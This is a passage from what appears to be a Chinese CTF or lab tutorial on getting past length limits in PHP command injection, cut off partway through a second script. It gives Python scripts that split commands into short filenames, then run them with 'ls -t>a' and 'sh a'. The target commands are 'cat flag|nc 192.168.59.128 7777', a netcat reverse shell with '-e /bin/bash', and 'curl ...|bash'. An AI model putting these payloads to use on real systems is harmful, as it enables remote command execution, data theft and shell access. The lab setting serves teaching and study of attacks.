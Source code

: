 期望执行的命令

`cat flag|nc 192.168.59.128 7777       #无回显则反弹shell`   

或者`nc 192.168.59.128 7777 -e /bin/bash`

分割时注意空格和反斜杠都要转义

python示例：

```python
import requests
import time

url = 'http://192.168.59.128:18080/class09/2/index.php?cmd='
cmds = ['>cat\\',
        '>\ fl\\',
        '>ag\|\\',
        '>nc\ \\',
        '>192.\\',
        '>168.\\',
        '>59.1\\',
        '>28\ \\',
        '>7777']
#如果顺序请求，则要ls -tr，多一个字符'r'，所以一般逆序请求
s = requests.session()
cmds.reverse()
for cmd in cmds:
    time.sleep(1)
    s.get(url=url+cmd)
s.get(url=url+'ls -t>a')
s.get(url=url+'sh a')
```



#### 长度限制为5的绕过方式

第一个问题：`ls -t>a`超限制

第二个问题：一个空格要写成`>\ \\`只能构造一次空格的文件名

解决方法：更换期望执行的命令`curl 192.168.59.128|bash`

先构造`ls -t>a`,只能执行`ls`默认按照ascii排

将不按顺序的先写进文件，也就是`ls\\`  ，后面的用>>追加

python代码示例：

```python
import time
import requests
baseurl = "http://192.168.1.6:19080/class09/3/index.php?cmd="
s = requests.session()

# 将ls -t 写入文件_
list=[
    ">ls\\",
    "ls>_",
    ">\ \\",
    ">-t\\",
    ">\>y",
    "ls>>_"
]

# curl 192.168.1.161/1|bash
list2=[
    ">bash",
    ">\|\\",
```